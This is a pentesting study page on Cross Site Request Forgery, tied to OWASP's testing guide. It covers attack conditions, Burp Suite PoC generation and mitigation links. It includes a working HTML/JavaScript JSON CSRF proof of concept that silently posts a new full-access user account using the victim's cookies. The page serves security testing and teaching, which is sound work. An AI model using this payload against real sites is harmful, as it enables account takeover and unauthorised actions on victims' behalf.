

# CSRF attack - Cross Site Request Forgery


??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 6. Session Management Testing > 6.5. Testing for Cross Site Request Forgery

    | ID  | Link to Hackinglife                      | Link to OWASP                                                                                                                                                                                                        | Description                                                                                                                                                                           |
    | :-- | :--------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
    | 6.5 | [WSTG-SESS-05](../OWASP/WSTG-SESS-05.md) | [Testing for Cross Site Request Forgery](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery) | - Determine whether it is possible to initiate requests on a user's behalf that are not initiated by the user.  - Conduct URL analysis, Direct access to functions without any token. |


Cross Site Request Forgery (CSRF)  is a type of web security vulnerability that occurs when an attacker tricks a user into performing actions on a web application without their knowledge or consent. A successful CSRF exploit can compromise end user data and operation when it targets a normal user. If the targeted end user is the administrator account, a CSRF attack can compromise the entire web application. 

CSRF vulnerabilities may arise when applications rely solely on HTTP cookies to identify the user that has issued a particular request. Because browsers automatically add cookies to requests regardless of the request's origin, it may be possible for an attacker to create a malicious web site that forges a cross-domain request to the vulnerable application.

Three conditions that enable CSRF:

- A relevant action.
- Cookie-based session handling.
- No unpredictable request parameters.


### How it works

```
The attacker crafts a malicious request (e.g., changing the user's email address or password) and embeds it in a web page, email, or some other form of content.

The attacker lures the victim into loading this content while the victim is authenticated in the target web application.

The victim's browser automatically sends the malicious request, including the victim's authentication cookie.

The web application, trusting the request due to the authentication cookie, processes it, causing the victim's account to be compromised or modified.
```

CSRF attacks can have serious consequences: 

- Unauthorized changes to a user's account settings.
- Fund transfers or actions on behalf of the user without their consent.
- Malicious actions like changing passwords, email addresses, or profile information.

## How to test CSRF by using Burpsuite proof of concept

Burp has a quite awesome PoC so you can generate HTML (and javascript) code to replicate this attack.

1. Select a URL or HTTP request anywhere within Burp, and choose Generate CSRF PoC within Engagement tools in the context menu. 



2. You have two buttons: one for editing the request manually (Regenerate button) the HTML based on the updated request; and tje ptjer to test the effectiveness of the generated PoC in Burp's browser (Test in browser button).

3. Open the crafted page from the same browser where the user has been logged in.

4. Observe the result, i.e. check if the web server executed the request.


### Fetch API

Requirements:

1. Authentication Method should be cookie based only
2. No Authentication Token in Header
3. Same-Origin Policy should not be enforced

Browser -> Network tab in development tools, right click on request and copy as fetch:


### Json CSRF

Resources: [https://systemweakness.com/ways-to-exploit-json-csrf-simple-explanation-5e77c403ede6](https://systemweakness.com/ways-to-exploit-json-csrf-simple-explanation-5e77c403ede6)

POC: source [rootsploit.com](https://rootsploit.com/2020/08/01/exploiting-csrf-on-json-endpoint-w-o-flash/)

```html
# Change the URL and Body from the PoC file to perform the CSRF on JSON Endpoint.
<html>
<title>CSRF Exploit POC by RootSploit</title>

<body>
    <center>
        <h1> CSRF Exploit POC by RootSploit</h1>

        <script>
            function JSON_CSRF() {
                fetch('https://vuln.rootsploit.io/v1/addusers', { method: 'POST', credentials: 'include', headers: { 'Content-Type': 'application/json' }, body: '{"user":{"role_id":"full_access","first_name":"RootSploit","last_name":"RootSploit","email":"csrf-test@rootsploit.com","password":"Password@","confirm_password":"Password@","mobile_number":"99999999999"}}' });
				window.location.href="https://rootsploit.com/csrf"
			}
        </script>

        <button onclick="JSON_CSRF()">Exploit CSRF</button>
    </center>
</body>

</html>

```

## Mitigation

[Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#cross-site-request-forgery-prevention-cheat-sheet "Permanent link")

## Related labs

+ [https://portswigger.net/web-security/all-labs#cross-site-request-forgery-csrf](https://portswigger.net/web-security/all-labs#cross-site-request-forgery-csrf)


## Resources

When it comes to web vulnerabilities, it is useful to have some links at hand:

+ Owasp vuln description: [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf).
+ Using Burp to Test for Cross-Site Request Forgery (CSRF): [https://portswigger.net/support/using-burp-to-test-for-cross-site-request-forgery](https://portswigger.net/support/using-burp-to-test-for-cross-site-request-forgery).
+ PoC with Burp, official link: [https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc).


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).


